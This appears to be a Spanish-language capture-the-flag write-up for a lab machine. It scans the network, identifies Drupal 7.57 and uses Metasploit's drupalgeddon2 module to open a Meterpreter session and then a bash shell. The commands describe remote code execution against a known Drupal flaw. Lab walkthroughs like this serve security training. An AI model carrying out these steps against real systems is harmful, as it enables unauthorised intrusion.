 Maquinas a utilizar **Kali Linux y FAKE NEWS (User)** (https://ctf.comunidadhackingetico.es/challenges)

  

**Drupal es un CMS** muy utilizado a día de hoy, tratándose de una **alternativa a WordPress**, por lo que también existen técnicas de explotación y vulnerabilidades en este tipo de CMS.  
En esta ocasión, vamos a ver cómo detectar la versión de un CMS Drupal y cual es su principal vulnerabilidad.  

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 53.png|image 53.png]]

  

```Bash
ping -c 1 10.0.3.20  
```

![[Imagenes/image 1 42.png|image 1 42.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.20 
```

![[Imagenes/image 2 41.png|image 2 41.png]]

Vemos que en el puerto 80 corre un servidor Apache pero además un Drupal.

  

- Nos vamos al navegador web y miramos que corre por el puerto 80.
    
    ![[Imagenes/image 3 40.png|image 3 40.png]]
    

  

- Cuando hemos hecho el nmap nos a mostrado que tenia Drupal pero nos lo muestra en forma de directorio. Vamos a probar cargar ese directorio haber si nos lleva a alguna parte.
    
    `10.0.3.20/drupal-7.57/`
    
    ![[Imagenes/image 4 38.png|image 4 38.png]]
    
    A tardado un poco pero hemos visto que intentaba resolver la dirección URL y por tanto hemos esperado si la resolvía. Si no resolvía podíamos haber intentado hace un **Fuzzing Web.**
    
      
    
- Comprobamos la versión del Grupal , en este caso ya la sabemos la 7.57 , pero vamos a comprobarla. **Pulsamos CTRL+U** para mirar el código fuente.
    
    ![[Imagenes/image 5 37.png|image 5 37.png]]
    
    Vemos que tenemos muchos indicios que confirman la versión del Drupal.
    
      
    
- Lanzamos el Metasploit
    
    ![[Imagenes/image 6 35.png|image 6 35.png]]
    
    ![[Imagenes/image 7 33.png|image 7 33.png]]
    
      
    
    - Buscamos posibles exploits para Drupal.
        
        ![[Imagenes/image 8 31.png|image 8 31.png]]
        
        Ya adelanto que la versión 7.57 de Drupal es vulnerable a un exploit llamado drupal_drupalgeddon2
        
    - Utilizamos el exploit 1
        
        `use 1`
        
        ![[Imagenes/image 9 28.png|image 9 28.png]]
        
          
        
        `show options`
        
        ![[Imagenes/image 10 24.png|image 10 24.png]]
        
          
        
        Rellenamos las opciones que nos falten y las que estén ya puestas sean correctas. Como nota a tener en cuenta que si el servidor web estuviera corriendo por un puerto diferente al 80 deberíamos indicarlo en RPORT.
        
          
        
        `set RHOSTS` `[http://10.0.3.20/drupal-7.57/](http://10.0.3.20/drupal-7.57/)`
        
        ![[Imagenes/image 11 18.png|image 11 18.png]]
        
          
        
        `show options`
        
        ![[Imagenes/image 12 18.png|image 12 18.png]]
        
          
        
        `run`
        
        ![[Imagenes/image 13 17.png|image 13 17.png]]
        
        Nos a abierto una sesión de Meterpreter. El Meterpreter es muy útil para hacer pivoting y cosas avanzadas con metasploit pero si queremos navegar por los directorios , ver el contenido de los archivo, subir privilegios es recomendable cambiar de Shell.
        
        `shell`
        
        `bash -i`
        
        ![[Imagenes/image 14 15.png|image 14 15.png]]
        
        **Shell** nos cambiaria a una terminal de Linux y el comando **bash -i** nos daría un prompt.
